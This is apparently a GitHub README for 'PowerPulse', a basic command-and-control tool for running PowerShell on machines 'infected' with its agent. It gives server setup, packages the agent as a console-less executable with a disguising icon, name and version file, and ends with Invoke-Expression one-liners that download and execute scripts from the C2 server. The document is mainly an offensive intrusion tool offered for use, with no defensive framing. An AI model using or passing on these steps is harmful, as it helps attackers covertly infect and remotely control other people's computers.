 # PowerPulse C2 Overview
PowerPulse is a basic C2 that lets you execute powershell commands on target machines once the machines are infected with a custom executable file
## C2 Dashboard
![C2 Dashboard](https://github.com/user-attachments/assets/1ff09483-effb-4be1-8425-63b6fa1884fe)

## C2 Agent Details Page
![C2 Agent Details Page 1](https://github.com/user-attachments/assets/a98fd428-fdee-4a37-9ccb-0270a2bea8d5)

## Installation
Clone the repository and then install virtual environment:
```bash
python3 -m venv venv
```
Next, activate virtual environment:
```bash
source venv/bin/activate  # On macOS/Linux
venv\Scripts\activate     # On Windows
```
Then, install all the required packages:
```bash
pip install -r requirements.txt
```

## Server
You should include 3 JSON files in /server directory: agents.json, commands_output.json, commands.json

Run the server:
```bash
python server/server.py
```

## Agent
### Run agent from python file
```bash
python agent/agent.py
```
### Install EXE
```bash
pyinstaller --onefile --noconsole --icon=cog.ico agent.py
```

### Install EXE (with a different name)
```bash
pyinstaller --onefile --noconsole --icon=cog.ico --name=ExeName agent.py
```

### Install EXE (with a name + a custom version file)
```bash
pyinstaller --onefile --noconsole --icon=cog.ico --name=ExeName --version-file=version.txt agent.py
```

## Custom powershell script usage:

To run custom powershell scripts on target machine (Agent), you can execute this command:
```powershell
Invoke-Expression ( [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://[SERVER_IP]:5000/static/scripts/script.ps1").Content) )
```

Change wallpaper to cat image:
```powershell
Invoke-Expression ( [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://[SERVER_IP]:5000/static/scripts/wallpaper.ps1").Content) )
```
